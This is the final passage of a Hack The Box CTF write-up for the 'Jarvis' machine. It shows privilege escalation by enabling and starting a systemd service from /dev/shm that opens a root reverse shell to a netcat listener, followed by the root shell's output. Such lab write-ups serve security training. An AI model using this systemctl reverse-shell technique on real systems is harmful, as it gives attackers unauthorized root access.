 ```shell
ls -lah /dev/shm/rootrevshell.service
-rw-r--r-- 1 pepper pepper 169 Jul 28 09:08 /dev/shm/rootrevshell.service
```

When this service starts, it'll it run as `root` and send a reverse shell payload.

- Setup a netcat listener based on the reverse shell's port:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|21:08:05(HKT)]
└> rlwrap -cAr nc -lvnp 53
listening on [any] 53 ...
```

- **Create and start the service:**

```shell
/bin/systemctl enable /dev/shm/rootrevshell.service
Created symlink /etc/systemd/system/multi-user.target.wants/rootrevshell.service -> /dev/shm/rootrevshell.service.
Created symlink /etc/systemd/system/rootrevshell.service -> /dev/shm/rootrevshell.service.

/bin/systemctl start rootrevshell
```

- **Profit:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|21:08:05(HKT)]
└> rlwrap -cAr nc -lvnp 53
listening on [any] 53 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.143] 47078
[...]
root@jarvis:/# whoami;hostname;id;ip a
whoami;hostname;id;ip a
root
jarvis
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:71:d5 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.143/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:71d5/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted
